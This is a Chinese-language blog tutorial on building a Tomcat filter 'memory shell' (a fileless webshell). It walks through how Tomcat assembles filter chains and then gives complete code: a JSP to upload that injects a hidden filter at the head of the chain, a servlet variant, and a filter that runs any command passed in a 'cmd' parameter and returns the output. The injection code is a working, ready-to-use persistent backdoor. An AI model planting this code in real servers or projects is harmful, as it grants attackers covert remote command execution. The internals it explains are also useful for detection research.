# 前言

之前看过一些关于java回显的文章，基本的思路就是通过获取request，还有response对象，主要是response对象，通过response.getWriter.write()来将结果打印到页面上，但是内存马却又有一点不一样

# 前置知识

在Tomcat中，Context是Container组件的一种子容器，其对应的是一个Web应用。Context中可以包含多个Wrapper容器，而Wrapper对应的是一个具体的Servlet定义。因此Context可以用来保存一个Web应用中多个Servlet的上下文信息

context具体来说：

ServletContext接口的实现类为ApplicationContext类和ApplicationContextFacade类，其中ApplicationContextFacade是对ApplicationContext类的包装。我们对Context容器中各种资源进行操作时，最终调用的还是StandardContext中的方法，因此StandardContext是Tomcat中负责与底层交互的Context


# 什么是内存马

内存马又称无文件webshell，他主要是通过tomcat的启动过程中的组件实现，主要分为

```
动态注册filter

动态注册servlet

动态注册listener

基于Java agent拦截修改关键类字节码实现内存shell
```

这次我们先来看filter，我们知道tomcat首先会执行listener，然后是filter链，接下来是servlet

filter内存马就是动态注册恶意的filter组件添加到tomcat服务器中，使得我们程序运行的时候都会经过这个filter，导致恶意木马的效果

# 通过filter执行命令

我们知道filter和servlet可以通过修改配置文件web.xml或者使用注解的方式配置，其实还有动态注册，我们先来写一个配置好的filter看看命令执行的效果

filter接口中一个doFilter方法，我们在这里面定义filter的拦截逻辑（也可以是我们自己的代码），配置好后，WEB服务器会在每次调用WEB资源的service方法之前调用doFilter

doFilter方法定义如下

```java
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException, IOException {
    /*
    处理逻辑
    */
    chain.doFilter(request,response);
}
```

和servlet一样，这个还具有一个init接口和destroy接口



这里为了方便，我就直接用注解写一个Filter，访问的所有web资源都会经过这个filter

```
package filter;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;

@WebFilter("/*")
public class TestFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("第一个Filter 初始化创建");
    }
    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        if(servletRequest.getParameter("cmd")!=null) {
             Process cmd = Runtime.getRuntime().exec(servletRequest.getParameter("cmd"));
             InputStream inputStream = cmd.getInputStream();
             InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
             BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
             String line;
             while ((line = bufferedReader.readLine()) != null) {
                    servletResponse.getWriter().println(line);
                }
            }
            filterChain.doFilter(servletRequest,servletResponse);
        }
    @Override
    public void destroy() {
    }
}）
```

这个方法有request和response对象，所以我们可以直接在页面拿到输出值，也可以用参数改变命令



# Filter注册流程

看了上面的例子，大概明白了filter内存马了

但是上面是配置好了的filter，所以说我们需要做的就是动态去注册一个filter，里面包含了我们的恶意代码，让所有的web资源经过这个filter，这样就达到了一个webshell的效果

那我们怎么去注册这样一个filter呢

在网上单独搜动态注册Filter的话，会搜到https://www.jianshu.com/p/cbe1c3174d41这篇文章

通过`addFilter` 方法，ServletContext 中有三个重载方法，分别接收字符串类型的 filterName 以及 Filter 对象/className 字符串/Filter 子类的 Class 对象，提供不同场景下添加 filter 的功能，这些方法均返回 `FilterRegistration.Dynamic` 实际上就是 FilterRegistration 对象



实现的话在org.apache.catalina.core.ApplicationContext#addFilter

这里为了看解释，直接用su18师傅的图了



可以看到，这个方法创建了一个 FilterDef 对象，将 filterName、filterClass、filter 对象初始化进去，使用 StandardContext 的 `addFilterDef` 方法将创建的 FilterDef 储存在了 StandardContext 中的一个 Hashmap filterDefs 中，然后 new 了一个 ApplicationFilterRegistration 对象并且返回，并没有将这个 Filter 放到 FilterChain 中，单纯调用这个方法不会完成自定义 Filter 的注册。并且这个方法判断了一个状态标记，如果程序以及处于运行状态中，则不能添加 Filter。

返回了一个FilterRegistration对象，并没有直接完成filter的注册过程

而刚才那篇文章的注册方法会行不通，在https://xz.aliyun.com/t/7388#toc-2给出了原因和解决办法

因为`this.context.getState()`在运行时返回的state已经是`LifecycleState.STARTED`了，所以直接就抛异常了，filter根本就添加不进去。不过问题不大，因为`this.context.getState()`获取的是ServletContext实现对象的context字段，从其中获取出state，那么，我们在其添加filter前，通过反射设置成`LifecycleState.STARTING_PREP`，在其顺利添加完成后，再把其恢复成`LifecycleState.STARTE`，这里必须要恢复，要不然会造成服务不可用

不过这种方法会显得太繁琐了，我们可以想办法操作filterchain来添加恶意的filter，调用其doFilter达到我们的目的

FilterChain 在 Tomcat 中的实现是 `org.apache.catalina.core.ApplicationFilterChain`，这个类提供了一个 `addFilter` 方法添加 Filter，这个方法接受一个 ApplicationFilterConfig 对象，将其放在 `this.filters` 中

对于每次请求需要执行的 FilterChain 都是动态取得的。

## 调用过程

那Tomcat 是如何处理一次请求对应的 FilterChain 的呢？在 ApplicationFilterFactory 的 `createFilterChain` 方法



先创建一个空的filterChain，然后将filterChain添加到request对象里面去

继续往下看



通过getParent获取wrapper父亲的context，即StardardContext当前web应用，然后获取web应用到所有filter，即FilterMaps



往下



这里的requestPath是index.jsp，因为我是在启动过程中打的断点，索引为index



这里会根据请求路径寻找对应的filter，因为两个都是/*，如果找对匹配的，则通过addFilter函数将该filter的filterConfig添加到filterChain中，跟进addfilter

```
void addFilter(ApplicationFilterConfig filterConfig) {
    ApplicationFilterConfig[] newFilters = this.filters;
    int var3 = newFilters.length;

    for(int var4 = 0; var4 < var3; ++var4) {
        ApplicationFilterConfig filter = newFilters[var4];
        if (filter == filterConfig) {
            return;
        }
    }

    if (this.n == this.filters.length) {
        newFilters = new ApplicationFilterConfig[this.n + 10];
        System.arraycopy(this.filters, 0, newFilters, 0, this.n);
        this.filters = newFilters;
    }

    this.filters[this.n++] = filterConfig;
}
```

逻辑很简单，先判断这个filterConfig是否存在，在判断容量是否已满，满了就扩容，最后将这个filterConfig添加到this.filters中

此时filterchain装填完毕了，里面有所有与url匹配的filter的filterConfig



接下来就是return这个filterchain了

通过上述流程可以知道，每次请求的 FilterChain 是动态匹配获取和生成的，如果想添加一个 Filter ，需要在 StandardContext 中 filterMaps 中添加 FilterMap，在 filterConfigs 中添加 ApplicationFilterConfig。这样程序创建时就可以找到添加的 Filter 了



接下来调用filterChain的doFilter，根据doFilter



调用internalDoFilter



通过循环利用getFilter取出filterChain上的每一个filter，随后调用其doFilter



## FilterConfig、FilterDef和FilterMaps

```
FilterDefs：存放FilterDef的数组 ，而FilterDef 中存储着我们过滤器名，过滤器实例 等基本信息
filterConfigs：存放filterConfig的map，键为过滤器名，值为FilterConfig对象其中主要存放 FilterDef 和 Filter对象等信息
filterMaps：一个存放FilterMap的数组，在 FilterMap 中主要存放了 FilterName和其对应的URLPattern
```

看此时的上下文环境是包含了这三者的



**fiterConfigs**

其中filterConfigs包含了当前的上下文信息`StandardContext`、以及`filterDef`等信息



其中`filterDef`存放了filter的定义，包括filterClass、filterName等信息。对应的其实就是web.xml中的`<filter>`标签



filterDef必要的属性为`filter`、`filterClass`以及`filterName`，需要用这个对我们的filter进行一个封装

**filterDefs**

这是一个HashMap，以键值对的形式存储filterDef



**filterMaps**

`filterMaps`中以array的形式存放各filter的路径映射信息，其对应的是web.xml中的`<filter-mapping>`标签



# Filter内存马实现

看来上面的注册流程就大概清楚了

我们需要去获取一个StardardContext对象，修改里面的filterMaps，因为filterConfig是ApplicationFilterConfig属性，所以需要添加我们的filter到ApplicationFilterConfig里去，这样在根据filterMaps的url寻找filter的时候才能找到我们注册的filter，接下来就是将filterDef添封装进filterConfig

所以添加恶意filter的思路就是

1. 获取StandardContext对象
2. 获取FilterConfigs这个Map对象，通过name判断filter是否存在
3. 创建恶意Filter
4. 使用FilterDef对Filter进行封装，并添加必要的属性
5. 创建filterMap类，并将路径和Filtername绑定，然后将其添加到filterMaps中
6. 使用ApplicationFilterConfig封装filterDef，然后通过map.put将其添加到filterConfigs这个map中中

## 获取StardardContext

StandardContext对象主要用来管理Web应用的一些全局资源，如Session、Cookie、Servlet等。因此我们有很多方法来获取StandardContext对象。

Tomcat在启动时会为每个Context都创建个ServletContext对象，来表示一个Context，从而可以将ServletContext转化为StandardContext。

```
//从request中获取ServletContext
ServletContext servletContext = req.getSession().getServletContext();

//从context中获取ApplicationContext对象
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

//从ApplicationContext中获取StandardContext对象
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```


## 实现代码

如果文件上传的话就上传这样一个jsp马，访问后即可

```
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStream" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "DawnT0wn";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                if(servletRequest.getParameter("cmd")!=null) {
                    Process cmd = Runtime.getRuntime().exec(servletRequest.getParameter("cmd"));
                    InputStream inputStream = cmd.getInputStream();
                    InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
                    BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
                    String line;
                    while ((line = bufferedReader.readLine()) != null) {
                        servletResponse.getWriter().println(line);
                    }
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        /**
         * 将filterDef添加到filterDefs中
         */
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());	//可以不要
        /**
         * 将filtermap添加到filtermaps最前面，这样最终我们的恶意filter就在chain的最前面，可以不受其他filter影响
         */
        standardContext.addFilterMapBefore(filterMap);

        /**
         * 将filterconfig（即ApplicationFilterConfig对象）添加到filterconfigs中
         */
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        //动态注册完毕，现在存在了一个拦截/*的filter
        out.print("Inject Success !");
    }
%>
```




```
package filter;

import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;

@WebServlet("/filter")
public class AddTomcatFilter extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        this.doPost(req, resp);
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {

        try {
            String name = "DawnT0wn";
            ServletContext servletContext = req.getSession().getServletContext();

            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

            Field stdctx = applicationContext.getClass().getDeclaredField("context");
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

            Field configs = standardContext.getClass().getDeclaredField("filterConfigs");
            configs.setAccessible(true);
            Map filterConfigs = (Map) configs.get(standardContext);

            if (filterConfigs.get(name) == null) {
                //自定义一个filter对象
                Filter filter = new Filter() {
                    @Override
                    public void init(FilterConfig filterConfig) throws ServletException {

                    }

                    @Override
                    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                        if (servletRequest.getParameter("cmd") != null) {
                            Process process = Runtime.getRuntime().exec(servletRequest.getParameter("cmd"));
                            InputStream inputStream = process.getInputStream();
                            InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
                            BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
                            String line;
                            while ((line = bufferedReader.readLine()) != null) {
                                servletResponse.getWriter().println(line);
                            }
                        }
                        filterChain.doFilter(servletRequest, servletResponse);
                    }

                    @Override
                    public void destroy() {

                    }
                };

                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName(name);
                filterDef.setFilterClass(filter.getClass().getName());

                standardContext.addFilterDef(filterDef);

                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName(name);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());

                standardContext.addFilterMapBefore(filterMap);

                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

                filterConfigs.put(name,applicationFilterConfig);
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```

